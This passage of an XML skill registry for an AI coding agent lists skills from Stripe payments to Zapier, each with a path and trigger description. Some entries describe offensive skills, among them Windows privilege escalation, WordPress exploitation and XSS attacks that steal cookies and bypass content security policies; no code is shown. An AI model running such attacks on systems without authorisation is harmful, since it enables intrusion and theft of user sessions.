        <description>"Get paid from day one. Payments, subscriptions, billing portal, webhooks, metered billing, Stripe Connect. The complete guide to implementing Stripe correctly, including all the edge cases that will bite you at 3am.  This isn't just API calls - it's the full payment system: handling failures, managing subscriptions, dealing with dunning, and keeping revenue flowing. Use when: stripe, payments, subscription, billing, checkout."</description>
    </item>
    <item id="subagent-driven-development" confidence="1.0">
        <name>subagent-driven-development</name>
        <path>.agent/skills/subagent-driven-development/SKILL.md</path>
        <description>Use when executing implementation plans with independent tasks in the current session</description>
    </item>
    <item id="systematic-debugging" confidence="1.0">
        <name>systematic-debugging</name>
        <path>.agent/skills/systematic-debugging/SKILL.md</path>
        <description>Use when encountering any bug, test failure, or unexpected behavior, before proposing fixes</description>
    </item>
    <item id="tailwind-patterns" confidence="1.0">
        <name>tailwind-patterns</name>
        <path>.agent/skills/tailwind-patterns/SKILL.md</path>
        <description>Tailwind CSS v4 principles. CSS-first configuration, container queries, modern patterns, design token architecture.</description>
    </item>
    <item id="tavily-web" confidence="1.0">
        <name>tavily-web</name>
        <path>.agent/skills/tavily-web/SKILL.md</path>
        <description>Web search, content extraction, crawling, and research capabilities using Tavily API</description>
    </item>
    <item id="tdd-workflow" confidence="1.0">
        <name>tdd-workflow</name>
        <path>.agent/skills/tdd-workflow/SKILL.md</path>
        <description>Test-Driven Development workflow principles. RED-GREEN-REFACTOR cycle.</description>
    </item>
    <item id="telegram-bot-builder" confidence="1.0">
        <name>telegram-bot-builder</name>
        <path>.agent/skills/telegram-bot-builder/SKILL.md</path>
        <description>"Expert in building Telegram bots that solve real problems - from simple automation to complex AI-powered bots. Covers bot architecture, the Telegram Bot API, user experience, monetization strategies, and scaling bots to thousands of users. Use when: telegram bot, bot api, telegram automation, chat bot telegram, tg bot."</description>
    </item>
    <item id="telegram-mini-app" confidence="1.0">
        <name>telegram-mini-app</name>
        <path>.agent/skills/telegram-mini-app/SKILL.md</path>
        <description>"Expert in building Telegram Mini Apps (TWA) - web apps that run inside Telegram with native-like experience. Covers the TON ecosystem, Telegram Web App API, payments, user authentication, and building viral mini apps that monetize. Use when: telegram mini app, TWA, telegram web app, TON app, mini app."</description>
    </item>
    <item id="test-driven-development" confidence="1.0">
        <name>test-driven-development</name>
        <path>.agent/skills/test-driven-development/SKILL.md</path>
        <description>Use when implementing any feature or bugfix, before writing implementation code</description>
    </item>
    <item id="test-fixing" confidence="1.0">
        <name>test-fixing</name>
        <path>.agent/skills/test-fixing/SKILL.md</path>
        <description>Run tests and systematically fix all failing tests using smart error grouping. Use when user asks to fix failing tests, mentions test failures, runs test suite and failures occur, or requests to make tests pass.</description>
    </item>
    <item id="testing-patterns" confidence="0.5">
        <name>testing-patterns</name>
        <path>.agent/skills/testing-patterns/SKILL.md</path>
        <description>Jest testing patterns, factory functions, mocking strategies, and TDD workflow. Use when writing unit tests, creating test factories, or following TDD red-green-refactor cycle.</description>
    </item>
    <item id="theme-factory" confidence="1.0">
        <name>theme-factory</name>
        <path>.agent/skills/theme-factory/SKILL.md</path>
        <description>Toolkit for styling artifacts with a theme. These artifacts can be slides, docs, reportings, HTML landing pages, etc. There are 10 pre-set themes with colors/fonts that you can apply to any artifact that has been creating, or can generate a new theme on-the-fly.</description>
    </item>
    <item id="top-web-vulnerabilities" confidence="1.0">
        <name>Top 100 Web Vulnerabilities Reference</name>
        <path>.agent/skills/top-web-vulnerabilities/SKILL.md</path>
        <description>This skill should be used when the user asks to "identify web application vulnerabilities", "explain common security flaws", "understand vulnerability categories", "learn about injection attacks", "review access control weaknesses", "analyze API security issues", "assess security misconfigurations", "understand client-side vulnerabilities", "examine mobile and IoT security flaws", or "reference the OWASP-aligned vulnerability taxonomy". Use this skill to provide comprehensive vulnerability definitions, root causes, impacts, and mitigation strategies across all major web security categories.</description>
    </item>
    <item id="trigger-dev" confidence="0.5">
        <name>trigger-dev</name>
        <path>.agent/skills/trigger-dev/SKILL.md</path>
        <description>"Trigger.dev expert for background jobs, AI workflows, and reliable async execution with excellent developer experience and TypeScript-first design. Use when: trigger.dev, trigger dev, background task, ai background job, long running task."</description>
    </item>
    <item id="twilio-communications" confidence="1.0">
        <name>twilio-communications</name>
        <path>.agent/skills/twilio-communications/SKILL.md</path>
        <description>"Build communication features with Twilio: SMS messaging, voice calls, WhatsApp Business API, and user verification (2FA). Covers the full spectrum from simple notifications to complex IVR systems and multi-channel authentication. Critical focus on compliance, rate limits, and error handling. Use when: twilio, send SMS, text message, voice call, phone verification."</description>
    </item>
    <item id="typescript-expert" confidence="1.0">
        <name>typescript-expert</name>
        <path>.agent/skills/typescript-expert/SKILL.md</path>
        <description>&gt;-</description>
    </item>
    <item id="ui-ux-pro-max" confidence="1.0">
        <name>ui-ux-pro-max</name>
        <path>.agent/skills/ui-ux-pro-max/SKILL.md</path>
        <description>"UI/UX design intelligence. 50 styles, 21 palettes, 50 font pairings, 20 charts, 9 stacks (React, Next.js, Vue, Svelte, SwiftUI, React Native, Flutter, Tailwind, shadcn/ui). Actions: plan, build, create, design, implement, review, fix, improve, optimize, enhance, refactor, check UI/UX code. Projects: website, landing page, dashboard, admin panel, e-commerce, SaaS, portfolio, blog, mobile app, .html, .tsx, .vue, .svelte. Elements: button, modal, navbar, sidebar, card, table, form, chart. Styles: glassmorphism, claymorphism, minimalism, brutalism, neumorphism, bento grid, dark mode, responsive, skeuomorphism, flat design. Topics: color palette, accessibility, animation, layout, typography, font pairing, spacing, hover, shadow, gradient. Integrations: shadcn/ui MCP for component search and examples."</description>
    </item>
    <item id="upstash-qstash" confidence="0.5">
        <name>upstash-qstash</name>
        <path>.agent/skills/upstash-qstash/SKILL.md</path>
        <description>"Upstash QStash expert for serverless message queues, scheduled jobs, and reliable HTTP-based task delivery without managing infrastructure. Use when: qstash, upstash queue, serverless cron, scheduled http, message queue serverless."</description>
    </item>
    <item id="using-git-worktrees" confidence="0.5">
        <name>using-git-worktrees</name>
        <path>.agent/skills/using-git-worktrees/SKILL.md</path>
        <description>Use when starting feature work that needs isolation from current workspace or before executing implementation plans - creates isolated git worktrees with smart directory selection and safety verification</description>
    </item>
    <item id="using-superpowers" confidence="0.5">
        <name>using-superpowers</name>
        <path>.agent/skills/using-superpowers/SKILL.md</path>
        <description>Use when starting any conversation - establishes how to find and use skills, requiring Skill tool invocation before ANY response including clarifying questions</description>
    </item>
    <item id="vercel-deployment" confidence="0.5">
        <name>vercel-deployment</name>
        <path>.agent/skills/vercel-deployment/SKILL.md</path>
        <description>"Expert knowledge for deploying to Vercel with Next.js Use when: vercel, deploy, deployment, hosting, production."</description>
    </item>
    <item id="verification-before-completion" confidence="0.5">
        <name>verification-before-completion</name>
        <path>.agent/skills/verification-before-completion/SKILL.md</path>
        <description>Use when about to claim work is complete, fixed, or passing, before committing or creating PRs - requires running verification commands and confirming output before making any success claims; evidence before assertions always</description>
    </item>
    <item id="verifier" confidence="0.5">
        <name>GSD Verifier</name>
        <path>.agent/skills/verifier/SKILL.md</path>
        <description>Validates implemented work against spec requirements with empirical evidence</description>
    </item>
    <item id="viral-generator-builder" confidence="1.0">
        <name>viral-generator-builder</name>
        <path>.agent/skills/viral-generator-builder/SKILL.md</path>
        <description>"Expert in building shareable generator tools that go viral - name generators, quiz makers, avatar creators, personality tests, and calculator tools. Covers the psychology of sharing, viral mechanics, and building tools people can't resist sharing with friends. Use when: generator tool, quiz maker, name generator, avatar creator, viral tool."</description>
    </item>
    <item id="voice-agents" confidence="0.5">
        <name>voice-agents</name>
        <path>.agent/skills/voice-agents/SKILL.md</path>
        <description>"Voice agents represent the frontier of AI interaction - humans speaking naturally with AI systems. The challenge isn't just speech recognition and synthesis, it's achieving natural conversation flow with sub-800ms latency while handling interruptions, background noise, and emotional nuance.  This skill covers two architectures: speech-to-speech (OpenAI Realtime API, lowest latency, most natural) and pipeline (STT→LLM→TTS, more control, easier to debug). Key insight: latency is the constraint. Hu"</description>
    </item>
    <item id="voice-ai-development" confidence="1.0">
        <name>voice-ai-development</name>
        <path>.agent/skills/voice-ai-development/SKILL.md</path>
        <description>"Expert in building voice AI applications - from real-time voice agents to voice-enabled apps. Covers OpenAI Realtime API, Vapi for voice agents, Deepgram for transcription, ElevenLabs for synthesis, LiveKit for real-time infrastructure, and WebRTC fundamentals. Knows how to build low-latency, production-ready voice experiences. Use when: voice ai, voice agent, speech to text, text to speech, realtime voice."</description>
    </item>
    <item id="voice-ai-engine-development" confidence="1.0">
        <name>voice-ai-engine-development</name>
        <path>.agent/skills/voice-ai-engine-development/SKILL.md</path>
        <description>"Build real-time conversational AI voice engines using async worker pipelines, streaming transcription, LLM agents, and TTS synthesis with interrupt handling and multi-provider support"</description>
    </item>
    <item id="vulnerability-scanner" confidence="0.5">
        <name>vulnerability-scanner</name>
        <path>.agent/skills/vulnerability-scanner/SKILL.md</path>
        <description>Advanced vulnerability analysis principles. OWASP 2025, Supply Chain Security, attack surface mapping, risk prioritization.</description>
    </item>
    <item id="web-artifacts-builder" confidence="0.5">
        <name>web-artifacts-builder</name>
        <path>.agent/skills/web-artifacts-builder/SKILL.md</path>
        <description>Suite of tools for creating elaborate, multi-component claude.ai HTML artifacts using modern frontend web technologies (React, Tailwind CSS, shadcn/ui). Use for complex artifacts requiring state management, routing, or shadcn/ui components - not for simple single-file HTML/JSX artifacts.</description>
    </item>
    <item id="web-design-guidelines" confidence="0.5">
        <name>web-design-guidelines</name>
        <path>.agent/skills/web-design-guidelines/SKILL.md</path>
        <description>Review UI code for Web Interface Guidelines compliance. Use when asked to "review my UI", "check accessibility", "audit design", "review UX", or "check my site against best practices".</description>
    </item>
    <item id="web-performance-optimization" confidence="1.0">
        <name>web-performance-optimization</name>
        <path>.agent/skills/web-performance-optimization/SKILL.md</path>
        <description>"Optimize website and web application performance including loading speed, Core Web Vitals, bundle size, caching strategies, and runtime performance"</description>
    </item>
    <item id="webapp-testing" confidence="0.5">
        <name>webapp-testing</name>
        <path>.agent/skills/webapp-testing/SKILL.md</path>
        <description>Toolkit for interacting with and testing local web applications using Playwright. Supports verifying frontend functionality, debugging UI behavior, capturing browser screenshots, and viewing browser logs.</description>
    </item>
    <item id="windows-privilege-escalation" confidence="1.0">
        <name>Windows Privilege Escalation</name>
        <path>.agent/skills/windows-privilege-escalation/SKILL.md</path>
        <description>This skill should be used when the user asks to "escalate privileges on Windows," "find Windows privesc vectors," "enumerate Windows for privilege escalation," "exploit Windows misconfigurations," or "perform post-exploitation privilege escalation." It provides comprehensive guidance for discovering and exploiting privilege escalation vulnerabilities in Windows environments.</description>
    </item>
    <item id="wireshark-analysis" confidence="1.0">
        <name>Wireshark Network Traffic Analysis</name>
        <path>.agent/skills/wireshark-analysis/SKILL.md</path>
        <description>This skill should be used when the user asks to "analyze network traffic with Wireshark", "capture packets for troubleshooting", "filter PCAP files", "follow TCP/UDP streams", "detect network anomalies", "investigate suspicious traffic", or "perform protocol analysis". It provides comprehensive techniques for network packet capture, filtering, and analysis using Wireshark.</description>
    </item>
    <item id="wordpress-penetration-testing" confidence="1.0">
        <name>WordPress Penetration Testing</name>
        <path>.agent/skills/wordpress-penetration-testing/SKILL.md</path>
        <description>This skill should be used when the user asks to "pentest WordPress sites", "scan WordPress for vulnerabilities", "enumerate WordPress users, themes, or plugins", "exploit WordPress vulnerabilities", or "use WPScan". It provides comprehensive WordPress security assessment methodologies.</description>
    </item>
    <item id="workflow-automation" confidence="0.5">
        <name>workflow-automation</name>
        <path>.agent/skills/workflow-automation/SKILL.md</path>
        <description>"Workflow automation is the infrastructure that makes AI agents reliable. Without durable execution, a network hiccup during a 10-step payment flow means lost money and angry customers. With it, workflows resume exactly where they left off.  This skill covers the platforms (n8n, Temporal, Inngest) and patterns (sequential, parallel, orchestrator-worker) that turn brittle scripts into production-grade automation.  Key insight: The platforms make different tradeoffs. n8n optimizes for accessibility"</description>
    </item>
    <item id="writing-plans" confidence="0.5">
        <name>writing-plans</name>
        <path>.agent/skills/writing-plans/SKILL.md</path>
        <description>Use when you have a spec or requirements for a multi-step task, before touching code</description>
    </item>
    <item id="writing-skills" confidence="1.0">
        <name>writing-skills</name>
        <path>.agent/skills/writing-skills/SKILL.md</path>
        <description>Use when creating new skills, editing existing skills, or verifying skills work before deployment</description>
    </item>
    <item id="xlsx" confidence="0.5">
        <name>xlsx</name>
        <path>.agent/skills/xlsx/SKILL.md</path>
        <description>"Comprehensive spreadsheet creation, editing, and analysis with support for formulas, formatting, data analysis, and visualization. When Claude needs to work with spreadsheets (.xlsx, .xlsm, .csv, .tsv, etc) for: (1) Creating new spreadsheets with formulas and formatting, (2) Reading or analyzing data, (3) Modify existing spreadsheets while preserving formulas, (4) Data analysis and visualization in spreadsheets, or (5) Recalculating formulas"</description>
    </item>
    <item id="xlsx-official" confidence="0.5">
        <name>xlsx</name>
        <path>.agent/skills/xlsx-official/SKILL.md</path>
        <description>"Comprehensive spreadsheet creation, editing, and analysis with support for formulas, formatting, data analysis, and visualization. When Claude needs to work with spreadsheets (.xlsx, .xlsm, .csv, .tsv, etc) for: (1) Creating new spreadsheets with formulas and formatting, (2) Reading or analyzing data, (3) Modify existing spreadsheets while preserving formulas, (4) Data analysis and visualization in spreadsheets, or (5) Recalculating formulas"</description>
    </item>
    <item id="xss-html-injection" confidence="1.0">
        <name>Cross-Site Scripting and HTML Injection Testing</name>
        <path>.agent/skills/xss-html-injection/SKILL.md</path>
        <description>This skill should be used when the user asks to "test for XSS vulnerabilities", "perform cross-site scripting attacks", "identify HTML injection flaws", "exploit client-side injection vulnerabilities", "steal cookies via XSS", or "bypass content security policies". It provides comprehensive techniques for detecting, exploiting, and understanding XSS and HTML injection attack vectors in web applications.</description>
    </item>
    <item id="zapier-make-patterns" confidence="1.0">
        <name>zapier-make-patterns</name>
        <path>.agent/skills/zapier-make-patterns/SKILL.md</path>
        <description>"No-code automation democratizes workflow building. Zapier and Make (formerly Integromat) let non-developers automate business processes without writing code. But no-code doesn't mean no-complexity - these platforms have their own patterns, pitfalls, and breaking points.  This skill covers when to use which platform, how to build reliable automations, and when to graduate to code-based solutions. Key insight: Zapier optimizes for simplicity and integrations (7000+ apps), Make optimizes for power "</description>
    </item>
</gsd_registry>
